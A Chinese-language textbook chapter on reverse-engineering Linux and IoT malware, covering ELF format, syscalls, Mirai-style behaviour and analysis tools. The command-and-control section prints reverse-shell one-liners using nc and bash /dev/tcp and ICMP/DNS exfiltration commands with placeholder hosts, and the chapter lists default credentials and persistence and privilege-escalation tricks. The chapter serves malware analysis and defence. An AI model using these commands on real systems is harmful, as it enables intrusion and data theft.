# 第十一章：解剖 Linux 和物联网恶意软件

许多在杀毒公司工作的逆向工程师，花费大部分时间分析 Windows 平台上的 32 位恶意软件，最初可能会觉得分析超出此范围的东西是一项艰巨的任务。然而，正如我们在本章中所看到的，文件格式和恶意软件行为背后的思想有很多相似之处，一旦你熟悉其中的一种，就能越来越容易地分析所有后续的恶意软件。

在本章中，我们将主要关注 Linux 和类 Unix 系统中的恶意软件。我们将涵盖这些系统中使用的文件格式，介绍各种静态和动态分析工具，包括反汇编器、调试器和监控器，并解释恶意软件在 **Mirai** 中的行为。

在本章结束时，你将了解如何不仅分析 x86 架构的样本，还能分析广泛应用于 **物联网**（**IoT**）领域的各种 **精简指令集计算机**（**RISC**）平台。

为此，本章分为以下几个部分：

+   解释 ELF 文件

+   探索常见的行为模式

+   对 x86（32 位和 64 位）样本的静态和动态分析

+   了解 Mirai 及其克隆体等

+   对 RISC 样本的静态和动态分析

+   处理其他架构

# 解释 ELF 文件

许多工程师认为 `.so`、`.ko`、`.o` 和 `.mod` 是常见的文件类型。对于主要在 Windows 系统上工作的分析师来说，他们习惯了 `.exe` 文件，可能会感到惊讶的是，ELF 可执行文件最常见的文件扩展名实际上是没有任何扩展名的。

ELF 文件也可以在多个嵌入式系统和游戏主机（例如 PlayStation 和 Wii）以及手机上找到。例如，在现代 Android 系统中，作为 **Android Runtime**（**ART**）的一部分，应用程序也会被编译或转换为 ELF 文件。

## ELF 结构

ELF 的主要优势之一，正是由于它的高度灵活性，并且支持多种地址大小（32 位和 64 位），以及其字节序，这意味着它可以在许多不同的架构上运行。

这是一个展示典型 ELF 结构的图表：



图 11.1 – 可执行和可链接文件的 ELF 结构

正如我们所见，它在可链接文件和可执行文件之间略有不同，但无论如何，它应该以文件头开始。它包含位于文件开头的 4 字节 `\x7F'ELF'` 签名（属于 `e_ident` 字段，我们稍后会介绍），然后是几个字段，主要指定文件的格式特性、目标系统的一些细节以及其他结构块的信息。这个头部的大小可以是 32 位平台和 64 位平台分别为 52 字节或 64 字节（对于 64 位平台，其三个字段为 8 字节，以便存储 64 位地址，而 32 位平台的三个字段为 4 字节）。

以下是一些对分析有用的字段：

+   `e_ident`：这是一个负责 ELF 标识的字节集。例如，在偏移量 `0x07` 处有一个 1 字节的字段，通常定义目标操作系统（例如，`0x03` 表示 Linux，或 `0x09` 表示 FreeBSD），但它通常设置为零，因此它只能在某些情况下为你提供关于目标操作系统的线索。

+   `e_type`：在偏移量 `0x10` 处的 2 字节字段，定义文件的类型——它是可执行文件、共享对象（`.so`）还是其他什么文件。

+   `e_machine`：在偏移量 `0x12` 处的 2 字节字段，它通常更有用，因为它指定目标平台（指令集），例如，`0x03` 表示 x86，或 `0x28` 表示 ARM。

+   `e_entry`：在偏移量 `0x18` 处的 4 字节或 8 字节字段（分别适用于 32 位或 64 位平台），它指定示例的入口点。它指向程序的第一条指令，该指令将在进程创建后执行。

文件头后面是程序头；其偏移量存储在 `e_phoff` 字段中。该块的主要目的是为系统提供足够的信息，在创建进程时将文件加载到内存中。例如，它包含描述段类型、偏移量、虚拟地址和大小的字段。

最后，节头包含有关每个节的信息，包括其名称、类型、属性、虚拟地址、偏移量和大小。其偏移量存储在文件头的 `e_shoff` 字段中。从逆向工程的角度来看，关注代码节（通常是 `.text`）以及包含字符串的节（例如 `.rodata`）是有意义的，因为它们可以提供关于恶意软件目的的大量信息。

有许多开源工具可以解析 ELF 头部并以人类友好的方式呈现它。以下是其中一些工具：

+   **readelf**

+   **objdump**

+   **elfdump**

现在，让我们谈谈系统调用。

## 系统调用

**系统调用**（**syscalls**）是程序与其运行的操作系统内核之间的接口。它们允许用户模式的软件以结构化和安全的方式访问硬件相关服务或进程管理服务等。

以下是恶意软件常用的系统调用示例。

### 文件系统

这些系统调用提供了与**文件系统**（**FS**）交互所需的所有功能。以下是一些示例：

+   `open/openat/creat`：打开并可能创建文件。

+   `read/readv/preadv`：从文件描述符获取数据。

+   `write/writev/pwritev`：将数据放入文件描述符。

+   `readdir/getdents`：读取目录内容，例如，查找感兴趣的文件。

+   `access`：检查文件权限，例如，检查重要数据或自身模块。

+   `chmod`：更改文件权限。

+   `chdir/chroot`：更改当前目录或根目录。

+   `rename`：更改文件名称。

+   `unlink/unlinkat`：可以用来删除文件，例如，破坏系统或隐藏恶意软件的痕迹。

+   `rmdir`：删除目录。

恶意软件可以使用这些调用执行各种操作，包括读取和写入其他模块和配置文件。

### 网络

与网络相关的系统调用是围绕套接字构建的。目前，没有与高级协议（如 HTTP）协作的系统调用。以下是恶意软件常用的一些系统调用：

+   `socket`：创建套接字。

+   `connect`：连接到远程服务器，例如，命令与控制服务器或其他恶意对等体。

+   `bind`：将地址绑定到套接字，例如，绑定一个用于监听的端口。

+   `listen`：在特定的套接字上监听连接。

+   `accept`：接受远程连接。

+   `send/sendto/write/...`：发送数据，例如，窃取信息或请求新命令。

+   `sendfile`：在两个描述符之间移动数据。与使用`read`和`write`的组合相比，它在性能上进行了优化。

+   `recv/recvfrom/read/...`：接收数据，例如，部署新模块或接收新命令。

网络系统调用通常用于与 C&C、对等体和合法服务进行通信。

### 进程管理

这些系统调用可以被恶意软件用来创建新进程或查找现有进程。以下是一些常见的示例：

+   `fork/vfork`：创建一个子进程，当前进程的副本。

+   `execve/execveat`：执行指定的程序，例如，另一个模块。

+   `prctl`：允许对进程进行各种操作，例如，改变其名称。

+   `kill`：向程序发送信号，例如，强制它停止操作。

它们有多种用途，例如，检测和影响 AV 软件、逆向工程工具、竞争对手，或查找包含有价值数据的进程。

### 其他

一些系统调用可以被恶意软件用于更特定的目的，例如，自我防御：

+   `signal`：这可以用于为特定信号设置新的处理程序，然后调用它以干扰调试，例如，`SIGTRAP`，它通常用于断点。

+   `ptrace`：此系统调用通常用于调试工具中，以便跟踪可执行文件，但恶意软件也可以利用它来检测其存在，或通过自行执行跟踪来防止调试工具的跟踪。

当然，还有许多其他的系统调用，你正在处理的样本可能会使用其中的几个来正常运行。这里提供的选择描述了一些可能值得关注的主要系统调用，用于帮助理解恶意软件的功能。

### 汇编中的系统调用

当工程师开始分析一个样本并在反汇编器中打开时，系统调用将呈现如下：



图 11.2 – 使用 connect 系统调用为 ARM 平台编译的 Mirai 克隆

在前面的截图中，我们可以看到数字 `0x90011B` 在汇编中被使用，而不是更易于理解的 `connect` 字符串。因此，首先需要将这些数字映射为字符串。具体方法将根据所使用的工具有所不同。例如，在 IDA 中，为了找到 ARM 的正确系统调用映射，工程师需要执行以下操作：

1.  首先，他们需要添加相应的类型库。进入 `gnulnx_arm`（GNU C++ ARM Linux）。

1.  然后，进入 `MACRO_SYS`。

1.  这个枚举将包含所有系统调用的列表。可能更容易以汇编中使用的十六进制格式呈现它们，而不是默认使用的十进制格式。为了做到这一点，选择该枚举，然后右键点击 | **编辑枚举**（使用 *Ctrl* + *E* 快捷键），并选择 **十六进制** 表示，而不是 **十进制**。

1.  现在，找到相应的系统调用变得更加容易，如下图所示：



图 11.3 – ARM 平台在 IDA 中的系统调用映射

在这种情况下，使用脚本来查找代码中所有使用系统调用的位置，并将它们映射到实际名称，以加速分析是完全有意义的。

现在，让我们探索在恶意软件中常见的各种行为模式。

# 探索常见的行为模式

通常，所有同类型的恶意软件无论平台如何，都会有类似的需求，主要包括以下几点：

+   它需要进入目标系统。

+   在许多情况下，它可能希望实现持久性，以便在重启后仍能存活。

+   它可能需要获得更高的权限，例如，获得系统范围的持久性或访问有价值的数据。

+   在许多情况下，它需要与远程系统（C&C）进行通信，以完成以下任务之一：

    +   获取命令。

    +   获取新配置。

    +   获取自我更新以及额外的有效载荷。

    +   上传响应、收集的信息和相关文件。

+   它需要实现其真正创建的目的。

+   在许多情况下，它可能希望避免被检测或分析。

一些恶意软件家族的行为类似蠕虫，旨在深入渗透到已到达的网络中；这种行为通常被称为横向移动。

实现依赖于目标系统，因为它们可能使用不同的默认工具和文件路径。在本节中，我们将通过常见的攻击阶段并提供实际实现的示例。

## 初始访问和横向移动

恶意软件进入目标系统的方式有很多种。虽然有些方法可能与 Windows 平台类似，但由于目的不同，其他方法会有所不同。我们来总结一下最常见的情况：

+   `root/12345`

+   `admin/1111`

+   `guest/guest`

+   `user/user`

+   `support/support`

这是它们在 Mirai 源代码中的样子：



图 11.4 – Mirai 源代码中的硬编码加密凭证

如你所见，在这种情况下，攻击者倾向于将凭证以加密形式存储，但仍然将原始值作为注释保留，以便于维护。

+   **动态密码**：一些公司通过使用所谓的“每日密码”来避免这种情况。然而，由于算法通常很容易获得，因为它必须在终端用户设备上实现，而对于低端设备来说，内置专用芯片或使用独特的硬件 ID 作为一部分秘密代价太高。最终，这意味着臭名昭著的“安全通过模糊化”方法在这种情况下不起作用，攻击者每次需要凭证时，生成正确的凭证对变得相当简单。

+   **漏洞利用**：通常，更新任何系统的过程可能需要用户交互才能完成并获得期望的结果，相比于 PC，这对于嵌入式设备来说更为麻烦。因此，许多嵌入式设备更新不频繁（甚至从不更新），只要某个漏洞被公开，受其影响的设备列表在长时间内仍然庞大。当设备拥有者不在意安装任何必要的更新时，基于通用 Linux 的服务器也可能出现同样的情况，只要机器能正常工作。



图 11.5 – 多个漏洞利用嵌入到 Mozi 恶意软件样本中

对于横向移动，通常采用相同的方法。除此之外，还可以在第一个系统上收集凭证，并尝试在附近的设备上重复使用它们。

如我们所见，对于已存在的设备，如何修复这些问题没有简单的解决办法。至于未来，只有当设备制造商开始关注将安全性引入他们的设备（无论是因为客户需求使其成为竞争优势，还是因为施加的特定立法），情况才会有所改善；很难预见到现状在短期内会发生根本性变化。

## 持续性

持久化机制可能因目标系统而异。在大多数情况下，它们依赖于相关操作系统已经支持的自动执行代码的方式。以下是一些最常见的实现方式：

+   `crontab`，它会定期尝试执行（或下载并执行）负载。此方法保证在重新启动后恶意软件会再次执行，而且除此之外，如果恶意软件被故意或意外杀死，它也可能复活。与 `cron` 交互的最简单方式是使用 `crontab` 工具。也可以通过 `/var/spool/cron/crontabs/`、修改 `/etc/crontab` 或手动将脚本放入 `/etc/cron.d/` 或 `/etc/cron.hourly/`（`.daily/.weekly/.monthly`）来实现，但可能需要提升权限。

+   `/etc/init.d/` 位置。之后，可以通过在 `/etc/rc?.d/` 位置使用符号链接来调用它。也可以通过直接为不同的运行级别定义命令，向 `/etc/inittab` 文件添加恶意命令。另一个常见的选项是修改在正常系统服务执行后运行的 `/etc/rc.local` 文件。

+   `/etc/init/`。

+   `/etc/systemd/`。

+   `˜/.bash_profile`（另一个选项是 `~/.bash_login` 和较旧的 `sh` 文件中的 `~/.profile`）或 `~/.bashrc` 文件被滥用，并且添加了一些恶意命令。这两者的区别在于，前者在登录外壳中执行（即用户登录时，无论是本地还是远程），而后者用于交互式非登录外壳（例如，当调用 `/bin/bash` 时，或者打开一个新的终端窗口时）。这里的“交互式”意味着如果 bash 只是执行一个脚本或使用 `-c` 参数调用，则不会执行。其他外壳也有自己的配置文件，例如，`zsh` 使用 `.zprofile` 文件。此方法不需要提升权限。`/etc/profile` 文件也可以以相同的方式使用，但在这种情况下，需要提升权限，因为该文件是多个用户共享的。* `.desktop` 文件被放置在 `~/.config/autostart` 位置。另一种执行脚本的专有位置是 `~/.config/autostart-scripts`。* **实际文件替换**：这种方法不涉及配置文件，而是修改或替换定期运行的实际原始程序：脚本或文件。通常需要提升权限才能替换系统文件，这些文件可以在多个系统中可靠地找到，但它也可以应用于一些特定的设置文件，且不需要特殊权限。*   `find` 工具具有 SUID 权限，它允许使用 `-exec` 参数执行几乎任何命令并提升权限。另一个常见的选项是修改这些文件执行的脚本，或者更改它们使用的环境变量，以便它们执行攻击者放置在其他位置的脚本。

也有一些针对特定操作系统的自定义选项，但这些是黑客和现代恶意软件常用的最常见情况之一。

还值得一提的是，一些恶意软件家族根本不采取持久性机制，因为它们期望在设备重启后通过相同的渠道轻松恢复到同一设备。

## 提升权限

如我们所见，恶意软件可以通过其在渗透后立即获得的权限实现持久性，存在多种方式。毫不奇怪，针对 IoT 设备的恶意软件首先会尝试这些方式。例如，VPNFilter 恶意软件通过整合`crontab`实现持久性，而 Torii 恶意软件通过整合 Mirai 的一些代码，尝试了多种技术，其中之一是使用本地的`~/.bashrc`文件。

然而，如果在任何阶段需要提升权限，以下是几种常见的实现方式：

+   **漏洞利用**：提升权限的漏洞利用非常常见，总有可能特定系统的所有者未及时修补漏洞。

+   **SUID 可执行文件**：正如我们在上一节中讨论的，如果 SUID 文件配置错误，可以使用提升的权限执行命令。

+   `sudo`甚至无需提供密码，攻击者可以轻松利用这一点。即便需要密码，攻击者仍然可以通过暴力破解来突破。

+   **暴力破解凭证**：虽然这种方法不太可能适用于大规模感染的恶意软件，但可以获得所需密码的哈希值（例如，属于 root 的密码），然后通过暴力破解或使用包含大量预计算密码对及其哈希值的彩虹表来寻找匹配。

还有其他创造性的方法可以实现持久性。例如，在较旧的 Linux 内核上，可以将攻击者程序的当前目录设置为`/etc/cron.d`，在失败时请求创建转储文件，然后故意使其崩溃。在这种情况下，攻击者控制的转储文件将写入`/etc/cron.d`并作为文本文件处理，因此其内容将在提升的权限下执行。

现在，让我们深入探讨恶意软件与攻击者控制的远程服务器之间可能的多种通信方式。

## 命令与控制

在许多系统中，有多个默认存在的标准系统工具，可以用来与远程机器交互，从而下载或上传数据，具体取决于它们的可用性：

+   `wget`

+   `curl`

+   `ftpget`

+   `ftp`

+   `tftp`



图 11.6 – IoT 恶意软件尝试使用 wget 或 curl 下载有效载荷

对于使用`busybox wget`或`busybox ftpget`的设备，也可以使用它们。`nc`（netcat）和`scp`工具也可以用于类似的目的。`nc`的另一个优势是，它的某些版本可以用于建立反向 Shell：

```
nc -e /bin/sh <remote_ip> <remote_port>
```

有很多方法可以实现这一点——即使仅使用 bash（某些版本）也可能足够：

```
bash -i >& /dev/tcp/<remote_ip>/<remote_port> 0>&1
```

预安装的脚本语言如 Python 或 Perl 提供了多种与远程服务器通信的选项，包括创建交互式 Shell。

一种更先进的方式来突破强大的防火墙并外泄数据的例子是使用`ping`工具并将数据存储在填充字节中（ICMP 隧道）或使用`nslookup`工具通过第三层（或更高层）域名发送数据（DNS 隧道）：

```
ping <remote_ip> -p <exfiltrated_data>
nslookup $encodeddata.<attacker_domain>
```

编译后的恶意软件通常使用标准的网络系统调用与 C&C 或对等方进行交互；有关更多信息，请参见前面的常见条目列表。

## 影响

恶意软件攻击物联网设备和基于 Linux 的服务器的主要目的通常如下：

+   **DDoS 攻击**：这些攻击可以通过多种方式获利：组织攻击以履行订单、勒索公司，或为受影响的实体提供 DDoS 保护服务。

+   **加密货币挖矿**：尽管每个受影响的设备通常具有相当基础的 CPU，且通常没有 GPU 来独立提供大量的计算能力，但它们的结合在适当实施的情况下可以生成相当可观的数字：



图 11.7 – 物联网加密货币挖矿恶意软件使用的脚本部分

+   **网络间谍活动和信息窃取**：感染的摄像头可以成为攻击者获取宝贵信息的来源，就像智能电视或智能家居设备常常拥有摄像头或麦克风（或两者）一样。感染的路由器也可以用于拦截和修改重要数据。最后，一些 Web 服务器可能会存储数据库中存储的宝贵信息。

+   **拒绝服务攻击**：恶意软件可以摧毁关键的基础设施硬件，使某些系统或数据无法访问。

+   **广告欺诈**：多个感染的设备可以通过执行欺诈点击为攻击者带来丰厚的收入。

+   **代理**：在这种情况下，感染的设备为攻击者提供匿名代理服务。

如我们所见，这里的重点与传统的 Windows 恶意软件有所不同，这是由于所针对的系统性质所致。

## 防御规避

通用的反逆向工程技巧，如使用校验和或精确匹配检测断点、剥离符号信息、结合数据加密，或使用自定义异常或信号处理程序（通过之前讨论的`signal`系统调用设置）在 ELF 文件中同样有效，和 PE 文件几乎没有区别：


图 11.8 – IoT 恶意软件中基于自定义 XOR 的字符串解密算法示例

恶意软件可以利用 ELF 结构的多种方式来复杂化分析。最常见的两种方法如下：

+   **使样本不寻常，但仍遵循 ELF 规范**：在这种情况下，恶意软件遵循文档要求，但没有编译器会生成这样的代码。此类技术的一个例子是头部指定错误的目标操作系统（我们知道实际上它可以是 0，这意味着该值被程序忽略）。另一个例子是去除的节表，正如我们之前看到的，它实际上是可选的，用于可执行文件。

+   `e_shoff`、`e_shnum`或`e_shstrndx`描述节头表，为特定节提供虚假的`sh_addr`值，或者为描述相同内存区域的段和节使用不匹配的内存保护标志。

关于现有的开源打包工具，`upx -d`功能可以直接解包它们。最常见的破坏技术包括以下几种：

+   修改硬编码的`UPX!`魔术值（其`l_info`结构中的`l_magic`字段）：

    +   为了绕过此变化，只需恢复原始的`UPX!`魔术值。

+   修改大小（`p_info`结构中的`p_filesize`和`p_blocksize`字段）：

    +   在这里，原始值可以从样本的末尾复制。

此外，攻击者可能会使用尚未发布的 UPX 开发版本来保护他们的样本。在这种情况下，即使回滚上述修改，UPX 的最新版本可能也无法处理这些样本。为了绕过这种技术，使用像**DiE**这样的打包检测工具正确识别应用的打包版本，并在必要时使用正确版本的 UPX 工具重新编译。

就系统调用而言，最常见的检测调试器和工具（如使用`ptrace`的`PTRACE_TRACEME`或`PTRACE_ATTACH`参数）的方法是，或者使调试器更难附加到样本，或者检测已经发生的调试过程。

最后，`prctl`（带有`PR_SET_NAME`参数）和`chroot`系统调用可分别用于更改进程名称及其根目录，从而避免被检测。

一些恶意软件家族远远超出了使用经典反分析技术的范畴。例如，ZHtrap 僵尸网络不仅能够判断它是运行在真实环境中还是蜜罐中，还能够在被攻陷的设备上设置自己的蜜罐，主动收集试图连接到它的设备列表。

另一个很好的例子是 rootkit，它可以用于实现隐身能力，例如，隐藏特定的文件、目录或进程。这些通常是内核模块，可以通过标准的`insmod`命令安装。在这种情况下，隐藏通常是通过挂钩系统调用实现的。许多 rootkit 恶意软件家族是基于公开的开源项目，如**Adore-Ng**或**Knark**。

现在，让我们讨论哪些工具可以帮助我们分析物联网威胁，以及如何正确使用它们。

# x86（32 位和 64 位）样本的静态和动态分析

工程师们可以使用多种工具来促进 Linux 恶意软件的静态和动态分析。在这一节中，我们将介绍最流行的解决方案，并提供如何高效使用它们的基本指南。

## 静态分析

我们已经介绍了可以以人类友好的方式展示 ELF 结构信息的工具。除此之外，还有许多其他类别的工具可以帮助加速分析。

### 文件类型检测器

在这种情况下，最流行的解决方案是标准的**file**工具。它不仅能识别数据的类型，还能提供其他重要信息。例如，对于 ELF 文件，它还会确认以下内容：

+   是否是 32 位还是 64 位样本

+   目标平台是什么

+   符号信息是否被剥离

+   是否是静态链接还是动态链接（即，是否使用嵌入式库或外部库）



](img/Figure_11.9_B18500.jpg)

图 11.9 – 用于物联网恶意软件样本的文件工具输出

其功能也已集成到**libmagic**库中。

另一个免费的非商业用途解决方案是**TrID**工具，它提供了一个漂亮的、可扩展的数据库。

### 数据雕刻

虽然这个术语主要用于法医领域，但在深入分析之前，提取二进制文件中所有可能的痕迹总是非常有用。以下是一些可用的便捷工具：

+   **strings**：这个标准工具可以用来快速提取样本中所有特定长度的字符串，这可以帮助你快速了解它的功能，有时还可以提供有价值的**妥协指标**（**IoCs**），比如使用的 C&C。

+   **手术刀**：主要用于法医领域，它可以用来快速提取嵌入式资源。

+   **foremost**：这是另一个来自法医领域的免费的文件雕刻工具。

### 反汇编器

这些是可以帮助你了解恶意软件功能的重型武器，但它们可能也是最需要时间来掌握和使用的。如果你对汇编不熟悉，建议先阅读 *第二章*，*汇编与编程基础速成课程*，以了解其工作原理。已知的工具其实相当多，因此我们可以大致将它们分为两类——工具和框架。

### 工具

这里列出了一些常用的工具，可以用来快速访问汇编代码：

+   `-D/--disassemble-all` 参数。它支持多种架构；可以通过 `-i` 参数获取架构列表。通常，它作为 **binutils** 的一部分进行分发，且必须为特定目标编译，才能使反汇编器正常工作。

+   `objdump`，它不应该用于反汇编目标文件。

+   **ODA**：这是一款独特的 **在线反汇编器**；它提供基本的反汇编功能，以及一些实用的对话框窗口，例如提供函数或字符串的列表。它支持令人印象深刻的架构数量，正如我们在下图中所看到的：



](img/Figure_11.10_B18500.jpg)

Figure 11.10 – ODA 支持的架构列表

+   **radare2**：这是一个强大的框架，结合了多种功能，既支持静态分析也支持动态分析，并且支持多种架构。许多工程师将其视为 IDA 的一个合适的开源替代品；它甚至支持 FLIRT 签名，除了自身的 **zignatures** 外，还可以类似使用。除了控制台，radare2 还提供了两种图形模式，包括控制流图。虽然掌握一些常用快捷键需要时间，但它能大大加快分析速度。我们将在一个专门的章节 *A radare2 cheat sheet* 中进一步深入讲解如何使用它。

+   **RetDec**：这款反编译器支持多种文件格式、平台和架构，还包括多个其他功能，如编译器和打包器检测，以及识别静态链接库代码。

+   **Snowman**：这是一款强大的反编译器，支持多种文件格式和架构。它可以作为插件或独立工具使用。

+   **Ghidra**：一款强大的跨平台开源逆向工程工具包，专注于静态分析——它由美国国家安全局（NSA）于 2019 年 3 月公开发布。它支持令人印象深刻的架构和相应的指令集，以及多种文件格式（在反汇编器和反编译器中均支持）。它具有一个全面的图形用户界面，可以在多个文件之间同时工作，每个文件都有独立的标签。此外，它还内建了创建脚本、协作工作、程序对比和版本跟踪的功能。

